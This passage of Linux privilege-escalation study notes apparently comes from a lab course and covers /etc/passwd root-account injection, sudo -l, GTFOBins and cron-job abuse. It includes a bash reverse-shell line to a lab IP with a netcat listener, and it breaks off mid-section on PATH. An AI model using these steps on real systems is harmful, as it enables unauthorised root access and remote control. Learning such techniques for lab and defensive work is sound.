*e.g:* 
	create a compliant password hash to add:
			**openssl passwd -1 -salt** < *salt*> < *password*> or 
			*openssl passwd < newpasswordhere>*
	create a new root user account in  /etc/passwd: 
			< *u_name*>:< *hash_pass*>**:0:0:root:/root:/bin/bash**

#### Escaping Vi Editor
**Sudo -l** - list what commands you're able to use as a super user on that account.

**Misconfigured Binaries and [GTFOBins]([https://gtfobins.github.io/](https://gtfobins.github.io/))**
If there is a misconfigured binary find during enumeration or check what binaries a user account you have access to can access, a good place to look up how to exploit them is [GTFOBins]([https://gtfobins.github.io/](https://gtfobins.github.io/)). GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. It provides a really useful breakdown of how to exploit a misconfigured binary.

#### Exploiting Crontab
##### What is Cron?
The Cron daemon is a long-running process that executes commands at specific dates and times. You can use this to schedule activities, either as one-time events or as recurring tasks. You can create a crontab file containing commands and instructions for the Cron daemon to execute.

We can use the command **"cat /etc/crontab"** to view what cron jobs are scheduled.

**Format of a Cronjob**
Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 
	#= ID  
	m = Minute
	h = Hour
	dom = Day of the month
	mon = Month
	dow = Day of the week
	user = What user the command will run as  
	command = What command should be run

	For Example,   **#  m   h dom mon dow user  command**  
	17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
	
Note that the if we notice that a file is world-writable:
	e.g: `ls -l /usr/local/bin/overwrite.sh
	`
Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.
	`#!/bin/bash ` 
	`bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run.
`nc -nvlp 4444`

#### Exploiting PATH Variable
##### What is PATH
PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs.
##### How does this let us escalate privileges?
*e.g:* Let's say we have an SUID binary **script**. Running it, we can see that it’s calling the system shell to do a basic process.
